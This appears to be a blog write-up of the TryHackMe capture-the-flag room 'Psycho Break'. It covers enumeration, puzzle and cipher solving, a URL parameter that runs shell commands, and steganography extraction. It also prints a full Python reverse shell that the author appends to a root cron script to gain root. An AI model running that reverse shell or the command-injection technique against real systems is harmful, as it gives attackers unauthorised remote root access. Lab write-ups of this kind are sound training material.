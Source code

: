 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,puzzle]
---
```


---
<p>Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

<p>
Deploy the VM and let's go...
First up is enumeration</p>

## <ins>Task 1</ins>
---
<br>
![nmap_scan](/assets/img/tryhackme/psychobreak/nmap.PNG)
<br>
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## <ins>Task 2</ins>
---
<br>
![http_service](/assets/img/tryhackme/psychobreak/3.png)
![room_hint](/assets/img/tryhackme/psychobreak/4.png)
<br>
<p>In the source page we can find the room name. Let’s go into the room.</p>

<br>
![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<br>
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

<br>
![second_sadist_room](/assets/img/tryhackme/psychobreak/6.png)
<br>
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

<br>
![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<br>
At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text.

<br>
![decode](/assets/img/tryhackme/psychobreak/8.png)
<br>
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

<br>
![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<br>
<p>In the source code of the page we can find a hint.</p>

<br>
![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<br>
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://ip-address/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 </pre>

use gobuster with the medium wordlist to find the hidden directory.

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
After clicking on the link we are redirected to another page.

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
After clicking on the link, it redirects to another page.

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
After looking at the source page, I found a hint which told that the keyword “shell” would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….

<br>
<pre>http://ip-address/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls .. </pre>

![dir_list](/assets/img/tryhackme/psychobreak/21.png)
I downloaded the two files after moving into the other directory that was returned in the response.

## <ins>Task 3</ins>
---

The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.

<pre>binwalk -e image.jpg</pre>
After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
Using the message that is decrypted  to extract the contents of the other image file with steghide.

<pre>steghide --extract -sf image_file.jpg</pre>
The text file gives the ftp credentials. Let’s login to ftp…

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## <ins>Task 4</ins>
---

I found two files in the ftp server and I downloaded using the get command.

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

After running the program file I found that it takes a word as a argument. So, I ran the bash script.

<pre>
for i in $(cat list.dic);
do
./program $i;
done
</pre>

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().


## <ins>Task 5</ins>
---

The decoded text is the SSH password. Without further wait, let’s login to ssh.

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
We found the user.txt in the home directory and some other hidden files

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
We also got the root flag.

## Bonus
---

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

The bonus task is to delete the user ruvik

<pre>userdel -r ruvik</pre>
Run this as root

That’s it folks. Happy Hacking!!!
